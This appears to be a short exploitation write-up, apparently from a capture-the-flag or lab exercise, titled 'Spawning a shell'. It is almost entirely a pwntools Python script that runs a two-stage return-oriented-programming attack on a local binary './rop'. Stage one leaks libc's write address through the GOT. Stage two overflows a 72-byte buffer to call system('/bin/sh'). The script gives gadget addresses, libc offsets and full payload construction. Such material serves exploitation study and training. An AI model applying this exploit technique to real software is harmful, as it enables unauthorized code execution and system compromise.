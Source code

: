 # Spawning a shell

The second payload:
* 'A'*72 
* address of rdi gadget
* address of "/bin/sh" string
* address of system
* address of exit

```python
#!/bin/python
from pwn import *

# Stage 1 data
main_address = 0x400537
write_address_got = 0x601018
write_plt = 0x400430

# Gadgets
rdi_gadget = 0x400613
rsi_gadget = 0x400611

#libc offsets
write_libc_offset = 0xf2520
system_libc_offset = 0x49e50
sh_libc_offset = 0x18f143#0x18f148
exit_libc_offset = 0x3f530

proc = process('./rop')

log.info("Stage one")
log.info("Receive input")
proc.recv(7)

payload = b'A'*72 + p64(rdi_gadget) + p64(0x1) + p64(rsi_gadget)+ p64(write_address_got) + p64(0x0) + p64(write_plt) + p64(main_address)

log.info("Send first payload")
proc.send(payload)

log.info("Receiving write address")
leaked_address = proc.recv(8)
write_libc_address = u64(leaked_address)

log.info(f"write address in libc: {hex(write_libc_address)}")
libc_address = write_libc_address - write_libc_offset

# Calculate required addresses
system_libc_address = libc_address + system_libc_offset
sh_libc_address = libc_address + sh_libc_offset
exit_libc_address = libc_address + exit_libc_offset

log.info(f"system address in libc: {hex(system_libc_address)}")
log.info(f"sh address in libc: {hex(sh_libc_address)}")

log.info("Stage two")

shellcode = b'A'*72 + p64(rdi_gadget) + p64(sh_libc_address) + p64(system_libc_address) + p64(exit_libc_address)


log.info("Send second payload")
proc.send(shellcode)
```